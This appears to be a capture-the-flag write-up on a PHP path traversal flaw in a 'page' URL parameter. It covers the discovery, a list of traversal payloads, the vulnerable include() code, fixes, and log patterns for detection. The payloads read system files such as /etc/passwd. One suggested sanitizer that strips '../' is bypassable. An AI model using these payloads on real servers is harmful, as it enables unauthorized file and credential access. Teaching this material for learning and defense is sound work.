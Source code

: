 # Path Traversal Vulnerability - File Access Control Bypass

## What I Found
The website uses a URL parameter to include files dynamically, which allows attackers to access any file on the server by manipulating the file path.

## How I Discovered It

### Initial Observation
I noticed the website uses this URL pattern:
```
http://ip/index.php?page=survey
```

This suggests the server is including files based on user input, which could be vulnerable to path traversal attacks.

### Testing for Path Traversal
I tested various payloads to see if I could access files outside the intended directory:

**Basic test:**
```
http://ip/index.php?page=../
```

**System file access:**
```
http://ip/index.php?page=../../../../../../../../../etc/passwd
```

### Success
The path traversal attack worked, and I was able to access the `/etc/passwd` file, which contained the flag.

## What This Vulnerability Allows

**File System Access:**
- Read any file the web server can access
- Access configuration files (`/etc/passwd`, `.env`, `config.php`)
- View source code and database credentials

**Information Disclosure:**
- System usernames and information
- Application configuration details
- Database connection strings
- API keys and secrets

## How Path Traversal Works

The vulnerable code likely looks something like:
```php
<?php
$page = $_GET['page'];
include($page . '.php');
?>
```

When I input `../../../../../../../../../etc/passwd`, it becomes:
```php
include('../../../../../../../../../etc/passwd.php');
```

The `../` sequences move up directories until reaching the root, then access `/etc/passwd`.

## Prevention Methods

### 1. Input Whitelisting
```php
$allowed_pages = ['survey', 'home', 'about', 'contact'];
$page = $_GET['page'];

if (in_array($page, $allowed_pages)) {
    include($page . '.php');
} else {
    // Show error or default page
}
```

### 2. Path Sanitization
```php
$page = basename($_GET['page']); // Removes directory paths
$page = str_replace(['../', '..\\'], '', $page); // Remove traversal sequences
```

### 3. Absolute Path Validation
```php
$base_dir = '/var/www/html/pages/';
$file_path = realpath($base_dir . $_GET['page'] . '.php');

if (strpos($file_path, $base_dir) === 0 && file_exists($file_path)) {
    include($file_path);
}
```

### 4. Web Server Configuration
```apache
# Apache - Block access to sensitive files
<FilesMatch "\.(env|passwd|shadow)$">
    Require all denied
</FilesMatch>
```

```nginx
# Nginx - Block path traversal attempts
location ~ \.\./  {
    deny all;
}
```

## Common Path Traversal Payloads

```
../
..\/
..%2f
..%5c
%2e%2e%2f
%2e%2e%5c
....//
....\\
```

## Detection and Monitoring

Watch for these patterns in logs:
- Multiple `../` sequences in URLs
- Access to system files (`/etc/passwd`, `/etc/shadow`)
- Unusual file extension requests
- Encoded traversal sequences (`%2e%2e%2f`)

## Key Lessons

1. **Never trust user input** - Always validate and sanitize file paths
2. **Use whitelisting** - Only allow access to approved files
3. **Implement proper access controls** - Web server should block sensitive files
4. **Monitor for attacks** - Log and alert on suspicious file access patterns

This vulnerability can lead to complete system compromise if sensitive configuration files containing credentials are accessed.